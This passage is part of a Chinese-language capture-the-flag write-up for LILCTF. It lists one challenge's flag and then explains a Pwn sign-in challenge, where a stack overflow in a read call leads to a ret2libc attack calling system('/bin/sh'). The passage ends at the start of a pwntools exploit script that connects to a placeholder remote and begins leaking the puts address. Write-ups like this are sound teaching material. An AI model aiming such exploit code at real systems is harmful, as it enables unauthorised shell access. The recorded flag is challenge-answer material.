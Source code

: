 ![](images/public_ahead-4.webp)

得到 Flag 为: `LILCTF{Z1pCRyp70_1s_n0t_5ecur3}`

## Pwn

### 签到

使用反编译器反编译可看到 `read` 函数调用处存在 Stack Arbitrary Write 风险:

![](images/pwn-signin-1.webp)

对 Stack 进行分析，可确定 `buf` 到 `retaddr` 之间的空间大小为 0x78。

且题目给出 `libc.so` 附件，可通过 ret2libc 调用 `system("/bin/sh")` 获得 Shell (此处借用了 [reHex Ninja 的代码](https://rehex.ninja/posts/ret2libc/) 进行修改):

```python
import pwn

p = pwn.remote("<REMOTE_HOST>", <REMOTE_PORT>)

pwn.context(os='linux', arch='amd64')

elf = pwn.ELF("./pwn")
libc = pwn.ELF("./libc.so.6")

pwn.info("Stage 1, leak puts addr")
p.recvuntil(b"What's your name?\n")

# prepare payload
```